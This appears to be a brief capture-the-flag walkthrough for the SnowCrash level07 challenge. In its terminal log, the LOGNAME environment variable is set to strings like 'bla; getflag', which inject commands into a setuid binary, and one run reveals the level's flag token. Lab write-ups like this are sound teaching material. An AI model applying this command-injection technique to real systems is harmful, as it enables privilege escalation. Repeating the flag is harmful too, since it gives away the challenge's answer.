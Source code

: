 ```
level07@SnowCrash:~$ export LOGNAME="bla; ls"
level07@SnowCrash:~$ ./level07 
bla
ls: cannot open directory .: Permission denied
level07@SnowCrash:~$ export LOGNAME="bla; id"
level07@SnowCrash:~$ ./level07 
bla
uid=3007(flag07) gid=2007(level07) groups=3007(flag07),100(users),2007(level07)
level07@SnowCrash:~$ export LOGNAME="bla; getflag"
level07@SnowCrash:~$ ./level07 
bla
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
![BinaryNinja](https://cdn.discordapp.com/attachments/1015186220227231825/1126832842886885417/image.png)
